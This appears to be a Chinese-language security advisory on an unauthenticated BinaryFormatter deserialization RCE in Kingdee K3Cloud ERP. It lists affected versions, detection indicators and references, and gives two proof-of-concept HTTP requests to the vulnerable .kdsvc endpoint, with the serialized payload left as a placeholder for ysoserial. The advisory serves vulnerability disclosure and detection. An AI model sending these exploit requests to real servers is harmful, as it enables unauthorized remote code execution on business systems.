 # 金蝶 K3Cloud 反序列化漏洞

## 漏洞描述

由于金蝶云星空能够使用format参数指定数据格式为二进制，攻击者可以 通过发送由BinaryFormatter恶意序列化后的数据让服务端进行危险的BinaryFormatter反序列化操作。反序列化过程中没有对数据进行签名或校验，导致攻击者可以在未授权状态下进行服务器远程代码执行。

## 影响范围

- 金蝶云星空<6.2.1012.4
- 7.0.352.16<金蝶云星空<7.7.0.202111
- 8.0.0.202205<金蝶云星空<8.1.0.20221110

## 漏洞复现

漏洞原理：由于金蝶云星空管理中心在处理序列化数据时，未对数据进行签名或校验，攻击手可以写入包含恶意代码的序列化数据，系统在进行反序列化时造成远程命令执行，该“管理中心“是提供给管理员使用的管理端，默认开放于8000端口。

漏洞利用POC：

```
POST /Kingdee.BOS.ServiceFacade.ServicesStub.DevReportService.GetBusinessO
bjectData.common.kdsvc HTTP/1.1
Host: 127.0.0.1
User-Agent: firefox
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,i
mage/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=
0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Google Chrome";v="111", "Chromium";v="111", "Not=A?Brand";v="2
4"
sec-ch-ua-mobile: ?0
Content-Type: text/json
Content-Length: 5725

ap0=paylod&format=3
```

paylod需要进⾏⼀次url编码。

漏洞利用POC2绕过：

```
POST /Kingdee.BOS.ServiceFacade.ServicesStub.DevReportService.GetBusinessO
bjectData.common.kdsvc HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 11.0; WOW64; x64) AppleWebKit/537.36 (
KHTML, like Gecko) Chrome/111.0.5520.225 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,i
mage/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=
0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Google Chrome";v="111", "Chromium";v="111", "Not=A?Brand";v="2
4"
sec-ch-ua-mobile: ?0
Content-Type: text/json
Content-Length: 2416

{
 "ap0":
"<KingdeeXMLPack z:Id=\"1\" z:Type=\"Kingdee.BOS.ServiceFacade.KingdeeXMLP
ack\" z:Assembly=\"Kingdee.BOS.ServiceFacade.Common, Version=1.0.0.0, Cult
ure=neutral, PublicKeyToken=null\" xmlns=\"http://schemas.datacontract.or
g/2004/07/Kingdee.BOS.ServiceFacade\" xmlns:i=\"http://www.w3.org/2001/XML
Schema-instance\" xmlns:z=\"http://schemas.microsoft.com/2003/10/Serializa
tion/\"><_x003C_Data_x003E_k__BackingField z:Id=\"2\">{BinaryPaylad}</_x00
3C_Data_x003E_k__BackingField></KingdeeXMLPack>",
 "format": "4"
}
```

*其中ap0中替换为ysoserial.exe中生成的内容，通常情况下为200响应。*

## 研判分析

- 请求方法POST
- 请求路径：/Kingdee.BOS.ServiceFacade.ServicesStub.DevReportService.GetBusinessObjectData.common.kdsvc
- 请求内容ap0中的内容
- 响应状态码200及内容


## 参考链接

⾦蝶K3Cloud反序列化分析及利⽤

<https://www.websecuritys.cn/index.php/archives/667/>

金蝶云星空 反序列化远程代码执行漏洞 附检测POC

<https://cn-sec.com/archives/1815530.html>

金蝶云星空反序列化远程代码执行漏洞复现

<https://www.gksec.com/K3cloud_rce.html>
